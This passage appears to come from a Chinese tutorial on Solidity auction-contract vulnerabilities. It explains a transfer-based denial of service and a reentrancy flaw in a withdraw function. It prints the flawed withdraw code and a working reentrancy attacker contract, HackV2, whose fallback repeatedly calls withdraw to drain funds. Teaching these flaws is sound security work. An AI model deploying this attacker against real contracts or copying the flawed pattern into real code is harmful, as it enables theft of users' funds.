 上述实现是有问题的，很容易被攻击。在拍卖结束后需要把抵押池内的eth返回给外部账户，但因为是 transfer 交易，那么会出现异常，然后全部回滚，抵押池内的资产永远都拿不到了。一个常见的情况就是，一个合约地址也参与了拍卖，在拍卖结束后 transfer 回这个合约地址，实际上会去调用 合约的fallback，如果合约的fallback没有设计，就会抛出异常。


```solidity
// 投标者自己提出取钱
function withdraw() public returns (bool) {
    require(now > auctionEnd);
    require(msg.sender != highestBidder);
    require(bids[msg.sender] > 0);

    uint amount = bids[msg.sender];
    if (msg.sender.call.value(amount)()) {
        bids[msg.sender] = 0;
        return true;
    }
    return false;
}

function pay2Beneficiary() public returns (bool) {
    require(now > auctionEnd);
    require(bids[highestBidder] > 0);

    uint amount = bids[highestBidder];
    bids[highestBidder] = 0;
    emit pay2Beneficiary(highestBidder, bids[highestBidder]);

    if (!beneficiary.call.value(amount)()) {
        bids[highestBidder] = amount;
        return false;
    }
    return true;
}
```

这个更新版本依然有bug，因为投标者自己取出钱在合约内使用的是 call.value 的方法，正常情况下没有问题，但如果对方是合约账户，这里依旧是会调用 fallback 函数，而 fallback 中可以继续调用 withdraw 这个方法。同时因为 call.value 会把所有 gas 都给出去，这就给了攻击者可乘之机。同时因为这里的状态变化在转账完成后才可以变化也埋下了隐患，应该是：状态改变-->实际变化-->失败后状态恢复，成功后退出。

```solidity
pragma solidity ^0.4.21;

contract HackV2 {
    uint stack = 0;
    function hack_bid(address addr) payable public {
        SimpleAuctionV2 sa = SimpleAuctionV2(addr);
        sa.bid.value(msg.value)();
    }

    function hack_withdraw(address addr) public payable {
        SimpleAuctionV2(addr).withdraw();
    }

    function() public payable{
        stack += 2;
        // 在另一个合约有余额、gas fee 足够且堆栈小于 500 的情况下持续攻击
        if (msg.sender.balance >= msg.value && msg.gas > 6000 && stack < 500)
            SimpleAuctionV2(msg.sender).withdraw();
        }
}
```
